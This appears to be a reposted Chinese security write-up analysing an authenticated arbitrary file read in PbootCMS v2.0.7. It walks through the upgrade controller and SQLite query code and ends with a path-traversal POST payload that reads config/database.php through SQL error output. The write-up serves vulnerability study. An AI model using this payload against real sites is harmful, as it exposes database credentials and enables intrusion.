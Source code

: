 # PbootCMS v2.0.7 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3070](https://www.zhihuifly.com/t/topic/3070)

# PbootCMS v2.0.7 任意文件读取

## 一、漏洞简介

仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录

## 二、漏洞影响

PbootCMS v2.0.7

## 三、复现过程

### 漏洞分析

漏洞文件`apps/admin/controller/system/UpgradeController.php`

```
<?php
    ...
    public function update(){
        if ($_POST) {
            if (! ! $list = post('list')) {
                $list = explode(',', $list);
                $backdir = date('YmdHis');

```
 // 分离文件
            foreach ($list as $value) {
                if (stripos($value, '/script/') !== false) {
                    $sqls[] = $value;
                } else {
                    $path = RUN_PATH . '/upgrade' . $value;
                    $des_path = ROOT_PATH . $value;
                    $back_path = DOC_PATH . STATIC_DIR . '/backup/upgrade/' . $backdir . $value;
                    if (! check_dir(dirname($des_path), true)) {
                        json(0, '目录写入权限不足，无法正常升级！' . dirname($des_path));
                    }
                    if (file_exists($des_path)) { // 文件存在时执行备份
                        check_dir(dirname($back_path), true);
                        copy($des_path, $back_path);
                    }

                    // 如果后台入口文件修改过名字，则自动适配
                    if (stripos($path, 'admin.php') !== false &amp;&amp; stripos($_SERVER['SCRIPT_FILENAME'], 'admin.php') === false) {
                        if (file_exists($_SERVER['SCRIPT_FILENAME'])) {
                            $des_path = $_SERVER['SCRIPT_FILENAME'];
                        }
                    }

                    $files[] = array(
                        'sfile' =&gt; $path,
                        'dfile' =&gt; $des_path
                    );
                }
            }

            // 更新数据库
            if (isset($sqls)) {
                $db = new DatabaseController();
                switch (get_db_type()) {
                    case 'sqlite':
                        copy(DOC_PATH . $this-&gt;config('database.dbname'), DOC_PATH . STATIC_DIR . '/backup/sql/' . date('YmdHis') . '_' . basename($this-&gt;config('database.dbname')));
                        break;
                    case 'mysql':
                        $db-&gt;backupDB();
                        break;
                }
                sort($sqls); // 排序
                foreach ($sqls as $value) {
                    $path = RUN_PATH . '/upgrade' . $value;
                    if (file_exists($path)) {
                        //echo $path;
                        //exit;
                        $sql = file_get_contents($path);
                        if (! $this-&gt;upsql($sql)) {
                            $this-&gt;log("数据库 $value 更新失败!");
                            json(0, "数据库" . basename($value) . " 更新失败！");
                        }
                    } else {
                        json(0, "数据库文件" . basename($value) . "不存在！");
                    }
                }
            }

            // 替换文件
            if (isset($files)) {
                foreach ($files as $value) {
                    if (! copy($value['sfile'], $value['dfile'])) {
                        $this-&gt;log("文件 " . $value['dfile'] . " 更新失败!");
                        json(0, "文件 " . basename($value['dfile']) . " 更新失败，请重试!");
                    }
                }
            }

            // 清理缓存
            path_delete(RUN_PATH . '/upgrade', true);
            path_delete(RUN_PATH . '/cache');
            path_delete(RUN_PATH . '/complite');
            path_delete(RUN_PATH . '/config');

            $this-&gt;log("系统更新成功!");
            json(1, '系统更新成功！');
        } else {
            json(0, '请选择要更新的文件！');
        }
    }
}
... 
``` `?>` 
```

可以看到注释写着更新数据库的部分，将`$sqls`遍历出来后放进了`file_get_contents`函数，然后调用了一个`upsql()`方法。跟过去看一下。

```
<?php
    // 执行更新数据库
    private function upsql($sql){
        $sql = explode(';', $sql);
        $model = new Model();
        foreach ($sql as $value) {
            $value = trim($value);
            if ($value) {
                $model->amd($value);
            }
        }
        return true;
    }
?> 
```

将传过来的字符串用`;`分隔后又调用了一个`Model::amd()`方法。继续跟下去。

文件`core/database/Sqlite.php`

```
<?php
    ...
    // 数据增、删、改模型，接受完整SQL语句，返回影响的行数的int数据
    public function amd($sql){
        $result = $this->query($sql, 'master');
        if ($result) {
            return $result;
        } else {
            return 0;
        }
    }
    // 执行SQL语句,接受完整SQL语句，返回结果集对象
    public function query($sql, $type = 'master'){
        ...
        switch ($type) {
            case 'master':
                if (! $this->begin) { // 存在写入时自动开启显式事务，提高写入性能
                    $this->master->exec('begin;');
                    $this->begin = true;
                }
                $result = $this->master->exec($sql) or $this->error($sql, 'master');
                break;
            case 'slave':
                $result = $this->slave->query($sql) or $this->error($sql, 'slave');
                break;
        }
        return $result;
    }
    // 显示执行错误
    protected function error($sql, $conn){
        $err = '错误：' . $this->$conn->lastErrorMsg() . '，';
        if ($this->begin) { // 存在显式开启事务时进行回滚
            $this->master->exec('rollback;');
            $this->begin = false;
        }
        error('执行SQL发生错误！' . $err . '语句：' . $sql);
    }
    ...
?> 
```

这里的`amd()`方法又调用了一个`query()`方法，在`query()`方法里可以看到直接将`$sql`放进SQL执行函数里，如果执行失败，直接将`$sql`打印出来。

这样看下来这里的漏洞可以拿来执行任意SQL语句，但是由于这里用的是`sqlite`数据库，且当前已经在后台里了，所以这里的任意SQL执行也没啥可以利用的。**（可能可以审一下用数据库里的数据当做输入的点，没准能利用起来）**

但是由于正常的文件内容读出来直接当做SQL语句执行肯定会报错，所以这里可以用来读取文件。

经过回溯可以发现`$sqls`，使用的POST传输过来的数据，且数据中需要有`/script/`字符串。

### payload

```
URL: http://www.0-sec.org/admin.php?p=/Upgrade/update
POST: list=/script/../../../config/database.php 
```

即可读取到文件**（仅限在Windows下，Linux不支持在不存在的文件夹下上跳，Linux下利用的话得找到一个系统或者程序自带的/script/目录）**

## 参考链接

> https://xz.aliyun.com/t/7628